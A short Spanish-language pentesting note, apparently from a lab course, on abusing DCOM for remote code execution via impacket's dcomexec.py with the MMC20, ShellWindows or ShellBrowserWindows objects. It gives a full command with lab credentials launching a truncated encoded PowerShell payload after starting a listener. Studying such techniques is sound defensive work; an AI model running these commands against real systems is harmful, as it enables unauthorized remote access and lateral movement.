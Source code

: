 # Requisitos

- Un usuario con permisos específicos (local and network access)
- Usuarios miembros del grupo "Distributed COM Users"
- Usuarios miembros de "Administrators group"


# Tecnicas

Existen muchas técnicas utilizadas para abusar de este protocolo. las más importantes son **MMC20**, **ShellWindows** y **ShellBrowserWindows**
# Desde linux

### dcomexec.py

Parte del paquete impacket.

##### Obtener RCE

###### 1) iniciamos un listener
###### 2) Corremos dcomexec

    python3 dcomexec.py -object MMC20 INLANEFREIGHT/Josias:Jonny25@172.20.0.52 "powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -silentcommand

Podemos usar cualquiera de las 3 técnicas mediante dcomexec cambiando simplemente el nombre de la misma.
